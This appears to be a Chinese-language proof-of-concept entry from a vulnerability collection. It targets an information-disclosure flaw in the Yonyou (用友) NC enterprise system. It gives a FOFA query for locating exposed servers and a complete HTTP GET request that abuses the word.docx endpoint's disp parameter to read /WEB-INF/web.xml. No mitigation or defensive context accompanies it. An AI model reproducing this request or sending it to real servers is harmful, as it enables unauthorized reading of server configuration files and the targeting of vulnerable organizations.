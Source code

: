# 用友NC系统word.docx存在信息泄露漏洞

用友NC系统word.docx存在信息泄露漏洞

## fofa

```javascript
app="用友-UFIDA-NC"
```

## poc

```javascript
GET /portal/docctr/open/word.docx?disp=/WEB-INF/web.xml HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Cookie: JSESSIONID=722CE6F799BBDE1ED1AFA8DC032B06C0.ncServer; JSESSIONID=6BDD75C8E88EE19ED89FF84865C74059.ncServer
Host: 
If-Modified-Since: Mon, 07 Jan 2019 01:42:44 GMT
If-None-Match: W/"15737-1546825364907"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
```

![image-20241017142208558](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410171422653.png)